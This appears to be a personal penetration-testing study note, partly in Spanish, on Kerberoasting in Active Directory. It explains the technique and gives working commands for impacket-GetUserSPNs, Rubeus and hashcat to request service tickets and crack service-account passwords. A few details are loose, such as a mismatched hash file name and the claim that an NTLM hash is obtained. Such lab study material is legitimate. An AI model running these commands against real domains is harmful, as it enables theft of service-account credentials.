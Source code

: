 
## DESCRIPTION

Let's recall how the Kerberos protocol works. We know that when a user wants to access a resource hosted by a Service Principal Name (SPN), the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted via the password hash of the SPN.

When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN.

These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.

The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as _Kerberoasting_.[1](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/kerberoasting#fn1)

What's we need? →  TGS (user and password)
What's we obtain? → USER hash NTLM 

#### Mas información
* 


## EXPLOITATION

### OPTION 1: 

```
impacket-GetUserSPNs <<domain name>>/<<username>>:<<password>> -outputfile <<krbroast>>


sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

**!!NOTA IMPORTANTE!!** SI NOS DA ESTE ERROR --> TENEMOS QUE SINCRONIZARNOS

![[Pasted image 20230525200042.png]]

```
 ntpdate <IP of DC>
```

### OPTION 2: 

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

2. Cracking

```
sudo hashcat -m 13100  hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 